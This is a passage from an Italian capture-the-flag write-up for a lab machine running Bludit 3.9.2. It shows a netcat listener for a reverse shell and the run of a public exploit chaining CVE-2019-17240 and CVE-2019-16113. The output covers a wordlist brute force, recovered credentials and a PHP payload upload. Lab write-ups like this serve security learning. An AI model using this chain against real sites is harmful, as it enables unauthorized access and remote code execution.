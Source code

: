 ## Automatic Foothold 

### Poc.py

Cercando il rete per `Bludit 3.9.2 RCE CVE ID` ci imbattiamo in [questa](https://github.com/0xConstant/CVE-2019-16113) repository di git 
dove si fa riferimento a due [CVE-2019-17240](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) (Bludit Brute Force Mitigation Bypass, menzionato in precedenza )& [CVE-2019-16113](https://www.exploit-db.com/exploits/47699). (modulo presente in metasploit)

Praticamente lo script non fa altro che concatenare le due vulnerabilità.
Una volta scaricato lo eseguiamo seguendo le istruzioni come segue

Per prima cosa ci mettiamo in ascolto con nc
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 1234
listening on [any] 1234 ..
```

ed eseguiamo 

```bash
┌──(root㉿kali)-[/home/kali/htb/blunder]
└─# python3 poc.py

     _____      _    ______  _____  _____
    |  __ \    | |   | ___ \/  __ \|  ___|
    | |  \/ ___| |_  | |_/ /| /  \/| |__
    | | __ / _ \ __| |    / | |    |  __|
    | |_\ \  __/ |_ _| |\ \ | \__/\| |___
     \____/\___|\__(_)_| \_| \____/\____/

    This exploit combines CVE-2019-17240 & CVE-2019-16113 to gain remote shell on target.

    Created by: kisho64 (@h_a_m_i__)

Enter target URL (i.e. https://target.com): http://10.10.10.191
[ ~ ] Enter listener's IP: 10.10.14.24
[ ~ ] Enter listener's port: 1234
[...] Checking if the target is live...
[ + ] The target is live! We are good to go...

[ ~ ] Should I bruteforce username? [Y/N]: N
[ ~ ] What username should I use? (leave this to use admin as username): fergus
[ ~ ] Enter the location for password list: /home/kali/htb/blunder/wordlist.txt
[ * ] Tried: CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[ * ] Tried: the
[ * ] Tried: Load
[ * ] Tried: Plugins
[ * ] Tried: and
[ * ] Tried: for
[ * ] Tried: Include
[ * ] Tried: Site
...<snip>...
[ * ] Tried: character
[ * ] Tried: RolandDeschain
[ + ] Creds found: fergus:RolandDeschain

[...] Attempting to login now...
[ + ] Login succeed... We are good to go :)

[ + ] The payload sbRyVnWevZ.php has been uploaded...
[ + ] The payload .htaccess has been uploaded...

```